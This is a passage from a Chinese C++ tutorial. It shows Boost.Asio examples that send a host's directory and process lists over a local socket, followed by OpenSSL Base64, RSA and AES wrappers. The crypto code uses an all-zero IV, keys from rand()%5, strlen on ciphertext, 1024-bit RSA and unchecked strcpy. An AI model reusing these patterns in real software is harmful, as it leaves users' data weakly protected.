      CatalogData *data = (CatalogData *)recv_catalogdata;

      std::cout << "文件路径: " << data->file_path
        << "是否为目录: " << data->is_directory
        << "文件大小: " << data->file_size
        << std::endl;

      memset(recv_catalogdata, 0, sizeof(CatalogData));
    }
  }

  std::system("pause");
  return 0;
}
```
客户端代码实现如下，相对于服务端客户端的实现则变得复杂一些，在代码中首先通过`read_some`函数调用获取到服务器端传来的目录`C://usr`信息，接着直接调用`GetFileState`函数并以此获取到当前目录下的文件列表信息，并将此信息存储到`send_buffer`容器内存储，接着再次调用`write_some`发送此容器内有多少行数据，最后通过使用循环的方式依次`write_some`发送`send_catalogdata`文件列表，直到全部发送结束则退出程序。

```C
#include <iostream>
#include <string>
#include <fstream>
#include <vector>
#include <boost/filesystem.hpp>
#include <boost/asio.hpp>
#include <boost/lexical_cast.hpp>

using namespace std;
using namespace boost;
using namespace boost::asio;
using namespace boost::filesystem;

// 定义结构体,将完整数据放入结构体中
typedef struct
{
  char file_path[2048];
  bool is_directory;
  long file_size;
}CatalogData;

// 利用流获取文件大小
long GetFileSize(std::string filename)
{
  long ref_kb;
  std::ifstream ptr(filename, std::ios::in | std::ios::binary);

  if (ptr.is_open() == true)
  {
    ptr.seekg(0, std::ios::end);   // 移动到末尾
    ref_kb = ptr.tellg();          // 获取字节数
    ptr.close();
    return ref_kb;
  }
  return 0;
}

// 遍历文件函数,并将结果存入RefVect
void GetFilePath(const string& pathName, std::vector <std::string> &RefVect)
{
  directory_iterator end;
  for (directory_iterator pos(pathName); pos != end; ++pos)
  {
    RefVect.push_back(pos->path().string());
  }
}

// 获取到当前目录详细信息,并依次取出数据
std::vector<CatalogData> GetFileState(const string& pathName)
{
  std::vector < std::string > ref_file_path;
  GetFilePath(pathName,ref_file_path);

  // 循环获取目录属性
  std::vector<CatalogData> ref_date;
  for (int x = 0; x < ref_file_path.size(); x++)
  {
    CatalogData ptr;
    // 判断如果是目录,则不计算文件大小
    if (is_directory(ref_file_path[x]))
    {
      ptr.is_directory = true;
      ptr.file_size = 0;
      strcpy(ptr.file_path, ref_file_path[x].c_str());
    }
    // 如果是文件则计算大小
    else
    {
      ptr.is_directory = false;
      ptr.file_size = GetFileSize(ref_file_path[x]);
      strcpy(ptr.file_path, ref_file_path[x].c_str());
    }
    // 依次放入容器
    ref_date.push_back(ptr);
  }
  return ref_date;
}

CatalogData ptr;

int main(int argc, char *argv[])
{
  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 6666);

  boost::system::error_code error_code;
  socket.connect(ep, error_code);

  // 接收需要获取的目录地址
  char recv_buf[1024] = { 0 };
  size_t len = socket.read_some(boost::asio::buffer(recv_buf), error_code);
  std::cout << "服务端需要获取: " << recv_buf << std::endl;

  // 判断目录是否存在,存在则执行遍历目录
  if (filesystem::exists(recv_buf))
  {
    std::vector<CatalogData> send_buffer;

    send_buffer = GetFileState(recv_buf);
    // 判断如果获取到了目录,则发送目录个数
    if (send_buffer.size() > 0)
    {
      // 发送目录总数
      std::string send_count = lexical_cast<std::string>(send_buffer.size());
      std::cout << "获取到的目录文件数量: " << send_count << std::endl;
      socket.write_some(boost::asio::buffer(send_count), error_code);
    }

    // 开始循环发送目录
    for (int x = 0; x < send_buffer.size(); x ++)
    {
      // 填充局部结构并发送
      char send_catalogdata[sizeof(CatalogData)] = { 0 };

      // 拷贝将send_buffer依次赋值到ptr指针上
      strcpy(ptr.file_path, send_buffer[x].file_path);
      ptr.is_directory = send_buffer[x].is_directory;
      ptr.file_size = send_buffer[x].file_size;

      // 将字节序拷贝到send_catalogdata中
      memcpy(send_catalogdata, &ptr, sizeof(CatalogData));

      // 开始发送字节序
      socket.write_some(boost::asio::buffer(send_catalogdata), error_code);
      memset(send_catalogdata, 0, sizeof(CatalogData));
    }
  }

  std::system("pause");
  return 0;
}
```

至此读者可自行编译上述代码，并以此先运行服务端程序，接着再运行客户端程序，此时即可获取到远程主机中`d://lyshark`目录下的所有文件信息，文件属性，以及文件大小，输出效果如下图所示；



### 19.12 同步获取远程进程

远程进程遍历功能实现原理与远程目录传输完全一致，唯一的区别在于远程进程枚举中使用`EnumProcess`函数枚举当前系统下所有活动进程，枚举结束后函数返回一个`PROCESSENTRY32`类型的容器，其中的每一个成员都是一个进程信息，只需要对该容器进行动态遍历即可得到所有的远程主机列表。

服务端代码如下所示，首先代码中通过`read_some`第一次接收到对端进程数量，接着通过第一个循环，将接收到的字符串数据强制转换为`PROCESSENTRY32`类型的结构，并将结构存入`vector`容器内，第二个循环则用于枚举输出我们整理好的容器列表。

```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>
#include <vector>
#include <Windows.h>
#include <tlhelp32.h>
#include <boost/lexical_cast.hpp>

using namespace boost;
using namespace boost::asio;
using namespace std;

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service, ip::tcp::endpoint(ip::tcp::v4(), 6666));
  ip::tcp::socket socket(io_service);
  acceptor.accept(socket);
  boost::system::error_code error_code;

  // 接收客户端的进程数量
  char process_count[32] = { 0 };
  socket.read_some(boost::asio::buffer(process_count), error_code);
  std::cout << "接收到的进程数量: " << process_count << std::endl;

  std::vector<PROCESSENTRY32> recv_process_list;

  // 循环接收客户端进程结构体
  for (int x = 0; x < lexical_cast<int>(process_count); x++)
  {
    // 接收字节序,并存入本地列表中
    char recv_buffer[sizeof(PROCESSENTRY32)] = { 0 };
    socket.read_some(boost::asio::buffer(recv_buffer, sizeof(PROCESSENTRY32)), error_code);

    // 强转指针
    PROCESSENTRY32 *ptr = (PROCESSENTRY32 *)recv_buffer;
    // 将每一个 PROCESSENTRY32 结构存入vector容器
    recv_process_list.push_back(*ptr);
  }

  // 循环输出 PROCESSENTRY32 测试是否可读取
  for (int x = 0; x < recv_process_list.size(); x++)
  {
    std::cout << "进程PID: " << recv_process_list[x].th32ProcessID 
      << "父进程PID: " << recv_process_list[x].th32ParentProcessID 
      << "进程名称: " << recv_process_list[x].szExeFile << std::endl;
  }

  std::system("pause");
  return 0;
}
```
客户端代码如下所示，其实现原理与文件传输功能完全一致，此处只是更换了一个`EnumProcess`函数，其传输方式此处就不在赘述。
```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>
#include <vector>
#include <Windows.h>
#include <tlhelp32.h>
#include <boost/lexical_cast.hpp>

using namespace boost;
using namespace boost::asio;
using namespace std;

// 输出系统进程信息，并出入vector容器中返回给调用者
std::vector<PROCESSENTRY32> EnumProcess()
{
  std::vector<PROCESSENTRY32> process_info;

  PROCESSENTRY32 pe32 = { 0 };
  pe32.dwSize = sizeof(PROCESSENTRY32);

  // 获取全部进程快照
  HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE != hProcessSnap)
  {
    // 获取快照中第一条信息
    BOOL bRet = Process32First(hProcessSnap, &pe32);
    while (bRet)
    {
      // 将进程快照到的列表加入到容器中
      process_info.push_back(pe32);

      // 获取快照中下一条信息
      bRet = Process32Next(hProcessSnap, &pe32);
    }
    CloseHandle(hProcessSnap);
  }
  return process_info;
}

int main(int argc, char * argv[])
{
  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 6666);

  boost::system::error_code error_code;
  socket.connect(ep, error_code);

  // send_process_list 存储需要发送的结构体
  std::vector<PROCESSENTRY32> send_process_list = EnumProcess();

  // 首先将当前进程数量发送给服务端
  std::string process_count = lexical_cast<std::string>(send_process_list.size());
  std::cout << "当前进程数量: " << process_count << std::endl;
  socket.write_some(boost::asio::buffer(process_count));

  // 循环发送每一个进程结构
  for (int x = 0; x < send_process_list.size(); x++)
  {
    // 定义发送字节序缓冲区
    char send_buffer[sizeof(PROCESSENTRY32)] = { 0 };

    // 拷贝字节序并发送字节序
    memcpy(send_buffer, &send_process_list[x], sizeof(PROCESSENTRY32));
    socket.write_some(boost::asio::buffer(send_buffer, sizeof(PROCESSENTRY32)));
  }

  std::system("pause");
  return 0;

}
```

读者可自行编译上述代码片段，并依次运行服务端与客户端，此时读者可清晰的看到目标主机中所运行的完整进程列表。



### 19.13 同步发送TCP流数据

Boost框架中默认就提供了针对TCP流传输的支持，该功能可以用来进行基于文本协议的通信，也可以用来实现自定义的协议。一般`tcp::iostream`会阻塞当前线程，直到IO操作完成。

首先来看服务端代码，如下所示在代码中首先通过`GetFileSize`读取文件行数，当有了行数我们就可以使用循环的方式依次调用`acceptor.accept(*tcp_stream.rdbuf())`接收客户端的相应请求，并使用`<<`符号向建立了链接的文件内追加字符串数据。
```C
#include <iostream>
#include <fstream>
#include <boost/asio.hpp>

using namespace std;
using namespace boost;
using namespace boost::asio;

// 利用流获取文件大小
long GetFileSize(std::string filename)
{
  long ref_kb;
  std::ifstream ptr(filename, std::ios::in | std::ios::binary);

  if (ptr.is_open() == true)
  {
    ptr.seekg(0, std::ios::end);   // 移动到末尾
    ref_kb = ptr.tellg();          // 获取字节数
    ptr.close();
    return ref_kb;
  }
  return 0;
}

// 一次性读入,并循环输出
void ReadAllFile(std::string filename)
{
  char *buffer;
  long size;

  std::ifstream ptr(filename, std::ios::in | std::ios::binary | std::ios::ate);

  size = ptr.tellg();
  std::cout << "总大小: " << size << std::endl;

  ptr.seekg(0, std::ios::beg);
  buffer = new char[size];

  ptr.read(buffer, size);
  ptr.close();

  // 循环输出逐字节输出
  for (int x = 0; x < size; x++)
  {
    if (buffer[x] != '\0')
    {
      std::cout << buffer[x];
    }
  }
  delete[] buffer;
}

// 每次读入一行，并输出
void ReadLineFileA(std::string filename)
{
  std::ifstream ptr(filename);
  std::string string;
  while (std::getline(ptr, string))
  {
    std::cout << string.c_str() << std::endl;
  }
}

void ReadLineFileB(std::string filename)
{
  char buffer[1024];
  std::fstream ptr;

  ptr.open(filename, std::ios::in | std::ios::binary);

  if (ptr.is_open() == true)
  {
    while (!ptr.eof())
    {
      // 该行长度到达1024或者遇到\n则结束
      ptr.getline(buffer, 1024, '\n');
      std::cout << buffer << std::endl;
    }
  }
}

// 获取文本总行数
int GetFileLine(std::string filename)
{
  char buffer[1024];
  std::fstream ptr;
  int line_count = 0;

  ptr.open(filename, std::ios::in | std::ios::binary);

  if (ptr.is_open() == true)
  {
    while (!ptr.eof())
    {
      ptr.getline(buffer, 1024, '\n');
      line_count = line_count + 1;
    }
  }
  return line_count;
}

int main(int argc, char *argv[])
{
  std::string file_path = "d://lyshark.txt";

  // 获取行号
  int count = GetFileLine(file_path);
  std::cout << "行数: " << count << std::endl;

  // 发送数据流
  io_service io;
  ip::tcp::endpoint ep(ip::tcp::v4(), 6666);
  ip::tcp::acceptor acceptor(io, ep);

  std::ifstream ptr(file_path);
  std::string get_string;
  while (std::getline(ptr, get_string))
  {
    ip::tcp::iostream tcp_stream;
    acceptor.accept(*tcp_stream.rdbuf());
    tcp_stream << get_string.c_str();
  }

  std::system("pause");
  return 0;
}
```
与服务端相比，客户端的代码则显得非常简单，在代码中我们只需要通过`ip::tcp::iostream tcp_stream`链接到服务端，并通过调用`getline`即可每次在流中获取一行数据，由于我们循环了3次，所有也就是只读取前三行。
```C
#include <iostream>
#include <boost/asio.hpp>

using namespace std;
using namespace boost::asio;
using namespace boost::system;

int main(int argc, char *argv[])
{
  // 循环从流中读入,前三行
  for (int i = 0; i < 3; ++i)
  {
    ip::tcp::iostream tcp_stream("127.0.0.1", "6666");
    string str;
    getline(tcp_stream, str);
    cout << str << endl;
  }

  std::system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码片段，则可看到如下图所示的输出信息；



## 第二十篇：OpenSSL加密传输技术

OpenSSL 是一种开源的加密库，提供了一组用于加密和解密数据、验证数字证书以及实现各种安全协议的函数和工具。它可以用于创建和管理公钥和私钥、数字证书和其他安全凭据，还支持`SSL/TLS`、`SSH`、`S/MIME`、`PKCS`等常见的加密协议和标准。

OpenSSL 的功能非常强大，可以用于构建安全的网络通信、加密文件和数据传输，还可以用于创建和验证数字签名、生成随机数等安全应用。它被广泛用于Web服务器、操作系统、网络应用程序和其他需要安全保护的系统中。

- 官方地址:  https://slproweb.com/products/Win32OpenSSL.html

如上所示的链接则是该库的官方网站，读者可自行下载对应版本的`OpenSSL`库，并运行安装程序，该库默认会被安装在根目录下，通过点击下一步即可很容易的完成安装配置。



该库安装成功后我们可以打开`OpenSSL-Win32`根目录，在目录中`bin`目录是可执行文件，OpenSSL的运行需要依赖于这些动态链接库，在使用时需要自行将本目录配置到环境变量内，其次`include`头文件`lib`静态库文件，在使用时读者需要自行配置到开发项目中，如下图所示；



OpenSSL库其本身就是一种加密与解密算法库，运用该库我们可以实现各类数据的加解密功能，本节内容中我们首先实现典型的`Base64`，`RSA`，`AES`加密算法的加解密功能，然后再通过这些加密算法实现数据包安全的网络传输功能。

### 20.1 字符BASE64压缩算法

Base64算法是一种用于将二进制数据编码为`ASCII`字符的算法。该算法将三个字节的二进制数据转换成四个字符的`ASCII`字符串，使得数据在传输时能够避免出现非法字符、特殊字符等问题，同时也可以将二进制数据转换为文本形式，方便在文本协议中传输，但读者需要注意`Base64`编码虽然可以作为一种简单的加密方式，但是它并不是一种真正的加密算法，因为它只是将数据转换为另一种形式，而没有对数据进行加密处理。

在OpenSSL中，使用`Base64`加密可以调用`BIO_f_base64`函数实现，该函数是一种`BIO`过滤器，用于将数据进行`Base64`编码和解码，如下代码中笔者分别封装实现了这两种加解密方法，其中`base64Encode`接收一个字符串并将该字符串压缩为编码字符串保存，与之相反`base64Decode`则用于将压缩后的字符串恢复。

```c
#include <openssl/err.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")

// base64 编码
char* base64Encode(const char* buffer, int length, bool newLine)
{
    BIO* bmem = NULL;
    BIO* b64 = NULL;
    BUF_MEM* bptr;

    b64 = BIO_new(BIO_f_base64());
    if (!newLine)
    {
        BIO_set_flags(b64, BIO_FLAGS_BASE64_NO_NL);
    }
    bmem = BIO_new(BIO_s_mem());
    b64 = BIO_push(b64, bmem);
    BIO_write(b64, buffer, length);
    BIO_flush(b64);
    BIO_get_mem_ptr(b64, &bptr);
    BIO_set_close(b64, BIO_NOCLOSE);

    char* buff = (char*)malloc(bptr->length + 1);
    memcpy(buff, bptr->data, bptr->length);
    buff[bptr->length] = 0;
    BIO_free_all(b64);
    return buff;
}

// base64 解码
char* base64Decode(char* input, int length, bool newLine)
{
    BIO* b64 = NULL;
    BIO* bmem = NULL;
    char* buffer = (char*)malloc(length);
    memset(buffer, 0, length);
    b64 = BIO_new(BIO_f_base64());
    if (!newLine)
    {
        BIO_set_flags(b64, BIO_FLAGS_BASE64_NO_NL);
    }
    bmem = BIO_new_mem_buf(input, length);
    bmem = BIO_push(b64, bmem);
    BIO_read(bmem, buffer, length);
    BIO_free_all(bmem);

    return buffer;
}
```

上述代码的使用也非常简单，如下所示我们通过传入一个`input`字符串，并将该字符串压缩后输出，接着再把该字符串解密后输出。

```c
int main(int argc, char* argv[])
{
  // flag == false 将编码数据压缩为一行,否则原格式输出
  bool flag = false;
  std::string input = "Hello lyshark!";

  // 输出编码内容
  char* encode = base64Encode(input.c_str(), input.length(), flag);
  std::cout << "Base64 编码后: " << encode << std::endl;

  // 输出解码内容
  char* decode = base64Decode(encode, strlen(encode), flag);
  std::cout << "Base64 解码后: " << decode << std::endl;
  
  system("pause");
  return 0;
}
```

运行上述代码，读者可看到如下图所示的输出效果；



### 20.2 非对称RSA加解密算法

RSA算法是一种非对称加密算法，由三位数学家`Rivest`、`Shamir`和`Adleman`共同发明，以他们三人的名字首字母命名。RSA算法的安全性基于大数分解问题，即对于一个非常大的合数，将其分解为两个质数的乘积是非常困难的。

RSA算法是一种常用的非对称加密算法，与对称加密算法不同，RSA算法使用一对非对称密钥，分别为公钥和私钥，公钥和私钥是成对生成的，公钥可以公开，用于加密数据和验证数字签名，而私钥必须保密，用于解密数据和生成数字签名。因此，RSA算法的使用场景是公钥加密、私钥解密，或者私钥加密、公钥解密。

OpenSSL库中提供了针对此类算法的支持，但在使用时读者需要自行生成公钥与私钥文件，在开发工具包内有一个`openssl.exe`程序，该程序则是用于生成密钥对的工具，当我们需要使用非对称加密算法时，则可以使用如下命令生成公钥和私钥。

 - 生成私钥: openssl genrsa -out rsa_private_key.pem 1024
 - 生成公钥: openssl rsa -in rsa_private_key.pem -pubout -out rsa_public_key.pem

读者执行上述两条命令后即可得到`rsa_private_key.pem`私钥，以及`rsa_public_key.pem`公钥，如下图所示；



在使用非对称加密时，读者需要分别导入所需要的头文件，这其中就包括了`rsa.h`用于处理加密算法的库，以及`pem.h`用于处理私钥的库，这两个库是使用RSA时必须要导入的。

```c
#include <iostream>
#include <string>
#include <openssl/err.h>
#include <openssl/rsa.h>
#include <openssl/pem.h>
#include <openssl/crypto.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"libssl.lib")
#pragma comment(lib,"libcrypto.lib")
```

**公钥加密私钥解密**

RSA公钥用于加密数据和验证数字签名，私钥用于解密数据和生成数字签名，通常用于公钥加密、私钥解密的场景，具有较高的安全性，但加密和解密速度较慢，因此通常采用一种混合加密方式，即使用RSA算法加密对称加密算法中的密钥，再使用对称加密算法加密数据，以保证数据的机密性和加密解密的效率。

首先我们来实现公钥加密功能，如下`Public_RsaEncrypt`函数，该函数接受两个参数，分别是需要加密的字符串以及公钥文件，代码中首先通过`fopen()`打开一个公钥文件，并通过`PEM_read_RSA_PUBKEY`函数读入并初始化公钥文件，接着调用`RSA_public_encrypt`该函数主要用于实现公钥加密，当加密成功后返回加密后的文本内容，类型是字符串。

```c
// 公钥加密
std::string Public_RsaEncrypt(const std::string& str, const std::string& path)
{
    RSA* rsa = NULL;
    FILE* file = NULL;
    char* ciphertext = NULL;
    int len = 0;
    int ret = 0;

    file = fopen(path.c_str(), "r");
    if (file == NULL)
    {
        return std::string();
    }

    rsa = PEM_read_RSA_PUBKEY(file, NULL, NULL, NULL);
    if (rsa == NULL)
    {
        ERR_print_errors_fp(stdout);
        fclose(file);
        return std::string();
    }

    len = RSA_size(rsa);
    ciphertext = (char*)malloc(len + 1);
    if (ciphertext == NULL)
    {
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }
    memset(ciphertext, 0, len + 1);

    ret = RSA_public_encrypt(str.length(), (unsigned char*)str.c_str(), (unsigned char*)ciphertext, rsa, RSA_PKCS1_PADDING);
    if (ret < 0)
    {
        ERR_print_errors_fp(stdout);
        free(ciphertext);
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }

    std::string s(ciphertext, ret);
    free(ciphertext);
    RSA_free(rsa);
    fclose(file);
    return s;
}
```

与公钥加密方法类似，`Private_RsaDecrypt`函数用于使用私钥进行解密，该函数接受两个参数，第一个参数是加密后的字符串数据，第二个参数则是私钥的具体路径，函数中通过`PEM_read_RSAPrivateKey`实现对私钥的初始化，并通过`RSA_private_decrypt`函数来实现对特定字符串的解密操作。

```c
// 私钥解密
std::string Private_RsaDecrypt(const std::string& str, const std::string& path)
{
    RSA* rsa = NULL;
    FILE* file = NULL;
    char* plaintext = NULL;
    int len = 0;
    int ret = 0;

    file = fopen(path.c_str(), "r");
    if (file == NULL)
    {
        return std::string();
    }

    rsa = PEM_read_RSAPrivateKey(file, NULL, NULL, NULL);
    if (rsa == NULL)
    {
        ERR_print_errors_fp(stdout);
        fclose(file);
        return std::string();
    }

    len = RSA_size(rsa);
    plaintext = (char*)malloc(len + 1);
    if (plaintext == NULL)
    {
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }
    memset(plaintext, 0, len + 1);

    ret = RSA_private_decrypt(str.length(), (unsigned char*)str.c_str(), (unsigned char*)plaintext, rsa, RSA_PKCS1_PADDING);
    if (ret < 0)
    {
        ERR_print_errors_fp(stdout);
        free(plaintext);
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }
    std::string s(plaintext, ret);

    free(plaintext);
    RSA_free(rsa);
    fclose(file);
    return s;
}
```

这两段代码的调用也非常容易，如下代码片段则分别实现了对`text`字符串的加密与解密功能，使用公钥加密，使用私钥解密。

```c
int main(int argc, char* argv[])
{
  std::string text = "hello lyshark";

  // 公钥加密
  std::string public_path = "d://rsa_public_key.pem";
  std::string encry = Public_RsaEncrypt(text, public_path);
  // std::cout << "加密后文本: " << encry << std::endl;

  // 私钥解密
  std::string private_path = "d://rsa_private_key.pem";
  std::string decry = Private_RsaDecrypt(encry, private_path);
  std::cout << "解密后文本: " << decry << std::endl;

  system("pause");
  return 0;
}
```

这段代码输出效果如下图所示；



**私钥加密公钥解密**

在RSA算法中，私钥加密公钥解密并不是一种常见的使用方式，因为私钥是用于签名而不是加密的。通常的使用方式是，使用公钥加密，私钥解密，这样可以保证数据的机密性，只有拥有私钥的人才能解密数据，但在某些时候我们不得不将这个流程反过来，使用私钥加密并使用公钥解密。

私钥加密的封装代码如下所示，其中`Private_RsaEncrypt`用于实现私钥加密，该函数同样接受两个参数，分别是待加密字符串以及当前私钥路径，函数的核心部分是`RSA_private_encrypt`该函数可用于使用私钥对数据进行加密。

```c
// 私钥加密
std::string Private_RsaEncrypt(const std::string& str, const std::string& path)
{
    RSA* rsa = NULL;
    FILE* file = NULL;
    char* ciphertext = NULL;
    int len = 0;
    int ret = 0;

    file = fopen(path.c_str(), "r");
    if (file == NULL)
    {
        return std::string();
    }
    rsa = PEM_read_RSAPrivateKey(file, NULL, NULL, NULL);

    if (rsa == NULL)
    {
        ERR_print_errors_fp(stdout);
        fclose(file);
        return std::string();
    }

    len = RSA_size(rsa);
    ciphertext = (char*)malloc(len + 1);
    if (ciphertext == NULL)
    {
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }
    memset(ciphertext, 0, len + 1);

    ret = RSA_private_encrypt(str.length(), (unsigned char*)str.c_str(), (unsigned char*)ciphertext, rsa, RSA_PKCS1_PADDING);
    if (ret < 0)
    {
        ERR_print_errors_fp(stdout);
        free(ciphertext);
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }

    std::string s(ciphertext, ret);
    free(ciphertext);
    RSA_free(rsa);
    fclose(file);
    return s;
}
```

公钥解密的实现方法与加密完全一致，代码中`Public_RsaDecrypt`函数用于实现公钥解密，其核心功能的实现依赖于`RSA_public_decrypt`这个关键函数。

```c
// 公钥解密
std::string Public_RsaDecrypt(const std::string& str, const std::string& path)
{
    RSA* rsa = NULL;
    FILE* file = NULL;
    char* plaintext = NULL;
    int len = 0;
    int ret = 0;

    file = fopen(path.c_str(), "r");
    if (file == NULL)
    {
        return std::string();
    }

    rsa = PEM_read_RSA_PUBKEY(file, NULL, NULL, NULL);
    if (rsa == NULL)
    {
        ERR_print_errors_fp(stdout);
        fclose(file);
        return std::string();
    }

    len = RSA_size(rsa);
    plaintext = (char*)malloc(len + 1);
    if (plaintext == NULL)
    {
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }
    memset(plaintext, 0, len + 1);

    ret = RSA_public_decrypt(str.length(), (unsigned char*)str.c_str(), (unsigned char*)plaintext, rsa, RSA_PKCS1_PADDING);
    if (ret < 0)
    {
        ERR_print_errors_fp(stdout);
        free(plaintext);
        RSA_free(rsa);
        fclose(file);
        return std::string();
    }
    std::string s(plaintext, ret);

    free(plaintext);
    RSA_free(rsa);
    fclose(file);
    return s;
}
```

有了上述方法，那么调用代码则变得很容易，如下所示，我们将`text`字符串使用私钥进行加密，并使用公钥进行解密。

```c
int main(int argc, char* argv[])
{
  std::string text = "hello lyshark";

  // 私钥加密
  std::string private_path = "d://rsa_private_key.pem";
  std::string encry = Private_RsaEncrypt(text, private_path);
  // std::cout << "加密后文本: " << encry << std::endl;

  // 公钥解密
  std::string public_path = "d://rsa_public_key.pem";
  std::string decry = Public_RsaDecrypt(encry, public_path);
  std::cout << "解密后文本:" << decry << std::endl;

  system("pause");
  return 0;
}
```

这段代码输出效果如下图所示；


### 20.3 对称AES加解密算法

AES算法是一种对称加密算法，全称为高级加密标准（Advanced Encryption Standard）。它是一种分组密码，以`128`比特为一个分组进行加密，其密钥长度可以是`128`比特、`192`比特或`256`比特，因此可以提供不同等级的安全性。该算法采用了替代、置换和混淆等技术，以及多轮加密和密钥扩展等机制，使得其加密效果优秀，安全性高，被广泛应用于各种领域中，如数据加密、文件加密、网络安全等。

AES算法加密和解密使用的密钥是相同的，因此也被称为对称加密算法，加密和解密速度较快，适用于对大量数据进行加密解密的场景。在实际应用中，通常采用混合加密方式，即使用RSA算法加密对称加密算法中的密钥，再使用对称加密算法加密数据，以保证数据的机密性和加密解密的效率。

AES算法常用两种加密模式，即CBC和ECB模式，它们分别具有不同的优缺点。

- ECB（Electronic Codebook，电子密码本）模式是最简单的分组密码工作模式，将每个明文块独立加密，同样的密钥加密同样的明文块得到的密文也是一样的，因此容易被攻击者利用重复的密文进行分析破解。ECB模式加密效率高，适用于短报文加密，但不适用于长报文加密。

- CBC（Cipher Block Chaining，密码块链）模式是一种分组密码工作模式，先将明文分组，然后对每个分组进行加密，加密时使用上一块密文作为输入，因此相同的明文块在不同位置上得到的密文是不同的，可以防止被攻击者利用重复的密文进行分析破解。CBC模式加密效率较低，但适用于长报文加密，因为不同的明文块之间互相影响，增加了安全性。

在实际应用中，通常采用`CBC`模式进行加密，因为它比`ECB`模式更安全，但加密效率较低。此外，还有其他的加密模式，如`CFB、OFB、CTR`等，不同的加密模式适用于不同的场景，需要根据实际需求进行选择。

OpenSSL库提供了对`AES`加密的支持，但在使用时读者还是需要自行封装一些通用加解密函数，如下代码片段是笔者常用的一些函数总结，其中`aes_cbc_encrypt`函数用于使用CBC模式对特定字符串加密，`aes_cbc_decrypt`则使用CBC模式对字符串进行解密，第二个函数`AES`函数则是使用`OpenSSL`库默认的加解密函数二次封装实现的。

```c
#include <iostream>
#include <openssl/err.h>
#include <openssl/aes.h>
#include <openssl/evp.h>
#include <openssl/crypto.h>
#include <openssl/pem.h>

extern "C"
{
#include <openssl/applink.c>
}

#pragma comment(lib,"libssl_static.lib")
#pragma comment(lib,"libcrypto.lib")

// CBC模式加密
int aes_cbc_encrypt(char* in, char* key, char* out)
{
    if (!in || !key || !out)
        return 0;

    unsigned char iv[AES_BLOCK_SIZE];
    for (int i = 0; i < AES_BLOCK_SIZE; ++i)
        iv[i] = 0;

    AES_KEY aes;
    if (AES_set_encrypt_key((unsigned char*)key, 128, &aes) < 0)
    {
        return 0;
    }
    int len = strlen(in);
    AES_cbc_encrypt((unsigned char*)in, (unsigned char*)out, len, &aes, iv, AES_ENCRYPT);
    return 1;
}

// CBC模式解密
int aes_cbc_decrypt(char* in, char* key, char* out)
{
    if (!in || !key || !out)
        return 0;

    // 加密的初始化向量
    unsigned char iv[AES_BLOCK_SIZE];

    // iv一般设置为全0
    for (int i = 0; i < AES_BLOCK_SIZE; ++i)
        iv[i] = 0;

    AES_KEY aes;
    if (AES_set_decrypt_key((unsigned char*)key, 128, &aes) < 0)
    {
        return 0;
    }
    int len = strlen(in);
    AES_cbc_encrypt((unsigned char*)in, (unsigned char*)out, len, &aes, iv, AES_DECRYPT);
    return 1;
}

// 将加密与解密整合在一起
void AES(unsigned char* InBuff, unsigned char* OutBuff, unsigned char* key, char* Type)
{
    if (strcmp(Type, "encode") == 0)
    {
        AES_KEY AESEncryptKey;
        AES_set_encrypt_key(key, 256, &AESEncryptKey);
        AES_encrypt(InBuff, OutBuff, &AESEncryptKey);
    }
    else if (strcmp(Type, "decode") == 0)
    {
        AES_KEY AESDecryptKey;
        AES_set_decrypt_key(key, 256, &AESDecryptKey);
        AES_decrypt(InBuff, OutBuff, &AESDecryptKey);
    }
}
```

有了上述算法封装，接下来笔者将依次演示这几种不同的加密函数是如何被应用的，首先简单介绍一下`aes_cbc_encrypt`与`aes_cbc_decrypt`这两个函数都是自己封装的AES加解密算法，这两个算法参数传递保持一致，第一个参数都是指定需要加密的缓冲区，第二个参数则是指定加密所使用的key，第三个参数是处理后的结果。

```c
int main(int argc, char* argv[])
{
  char szBuffer[1024] = "hello lyshark";
  char szDst[1024] = { 0 };
  char szSrc[1024] = { 0 };

  // 计算一串密钥
  char key[AES_BLOCK_SIZE] = { 0 };
  for (int x = 0; x < AES_BLOCK_SIZE; x++)
  {
    key[x] = 32 + x;
  }

  // AES加密
  if (aes_cbc_encrypt(szBuffer, key, szDst) != 0)
  {
    std::cout << "加密后长度: " << strlen(szDst) << std::endl;
  }

  // AES解密
  if (aes_cbc_decrypt(szDst, key, szSrc) != 0)
  {
    std::cout << "解密内容: " << szSrc << std::endl;
  }

  system("pause");
  return 0;
}
```

上述代码片段则是通过AES实现对数据加解密处理的功能，如下是这段代码的输出效果；



第二种调用方式是采用`API`实现，其中的`AES`函数，通过`AES_set_encrypt_key`设置加密密钥，并直接调用`AES_encrypt`实现数据加密，反之，通过`AES_set_decrypt_key`设置解密密钥，并调用`AES_decrypt`解密，这段代码调用方式如下所示；

```c
int main(int argc, char* argv[])
{
  unsigned char Buffer[1024] = "hello lyshark";
  unsigned char EncodeBuf[1024] = { 0 };
  unsigned char DecodeBuf[1024] = { 0 };
  unsigned char aes_key[32] = { 0 };

  // 随机生成密钥
  for (int x = 0; x < 32; x++)
  {
    int ch = rand() % 5;
    aes_key[x] = (char)ch;
  }

  AES(Buffer, EncodeBuf, (unsigned char *)aes_key, (char*)"encode");
  std::cout << "加密数据长度: " << strlen((char *)EncodeBuf) << std::endl;

  AES(EncodeBuf, DecodeBuf, (unsigned char*)aes_key, (char*)"decode");
  std::cout << "解密数据: " << DecodeBuf << std::endl;

  system("pause");
  return 0;
}
```

如上代码，通过调用`AES`函数时，传入`encode`实现数据加密，传入`decode`实现数据解密，如下图所示；



### 20.4 套接字AES加密传输

